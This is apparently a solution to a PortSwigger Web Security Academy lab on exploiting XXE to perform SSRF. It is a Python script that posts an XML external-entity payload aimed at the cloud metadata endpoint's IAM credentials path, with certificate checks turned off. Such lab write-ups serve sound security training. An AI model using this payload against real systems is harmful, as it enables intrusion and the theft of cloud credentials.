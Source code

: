 # Lab: Exploiting XXE to perform SSRF attacks

Link to lab: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

## Solution
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'Host': '0a3900a20412dc44c066c70c00d60097.web-security-academy.net',
    'Content-Type': 'application/xml',
}

data = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;#1</productId><storeId>1</storeId>\r\n</stockCheck>'

response = requests.post(
    'https://0a6300c2046a6e3cc0df1cea00ce0085.web-security-academy.net/product/stock',
    headers=headers,
    data=data,
    verify=False,
)

print(response.text)
```